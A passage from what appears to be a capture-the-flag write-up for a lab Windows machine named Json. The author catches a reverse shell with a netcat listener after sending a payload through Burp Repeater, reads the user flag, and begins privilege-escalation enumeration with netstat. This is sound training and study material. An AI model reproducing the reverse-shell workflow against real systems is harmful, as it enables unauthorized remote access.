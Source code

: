 I’ll drop that into Repeater, and submit. I get a shell:

```

PS > nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.158] 64526
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
json\userpool

```

And from there, I can access `user.txt`:

```

c:\Users\userpool\Desktop>type user.txt
34459a01************************

```

## Priv #1: userpool –> superadmin [full disk access]

### Enumeration

If I check the listening ports on Json, I’ll see what I found with the `nmap`, with one addition listening on localhost:

```

c:\>netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:21             0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       548
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       368
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       704
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       732
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       284
  TCP    0.0.0.0:49156          0.0.0.0:0              LISTENING       456
  TCP    0.0.0.0:49157          0.0.0.0:0              LISTENING       1588
  TCP    0.0.0.0:49158          0.0.0.0:0              LISTENING       464
  TCP    10.10.10.158:139       0.0.0.0:0              LISTENING       4
  TCP    10.10.10.158:49159     10.10.14.10:445        ESTABLISHED     4
  TCP    10.10.10.158:49162     10.10.14.10:443        ESTABLISHED     2636
  TCP    127.0.0.1:14147        0.0.0.0:0              LISTENING       660
...[snip]...

```
